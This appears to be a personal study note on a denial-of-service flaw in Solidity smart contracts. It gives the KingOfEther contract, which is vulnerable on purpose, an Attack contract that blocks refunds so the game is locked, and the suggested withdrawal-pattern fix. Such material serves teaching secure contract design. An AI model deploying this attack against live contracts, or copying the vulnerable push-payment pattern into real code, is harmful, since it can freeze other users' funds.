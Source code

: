 https://solidity-by-example.org/hacks/denial-of-service/

The following code will result in denial of service because `Attack` didn't implement a [[Payable]] [[Fallback and Receive]], if the `Attack` becomes the `king`, the call to repay ether to `king` will fail always, result in a denial of service
Solution: always let user withdraw their own funds
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract KingOfEther {
    address public king;
    uint256 public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent,) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}

contract Attack {
    KingOfEther kingOfEther;

    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // You can also perform a DOS by consuming all gas using assert.
    // This attack will work even if the calling contract does not check
    // whether the call was successful or not.
    //
    // function () external payable {
    //     assert(false);
    // }

    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}

```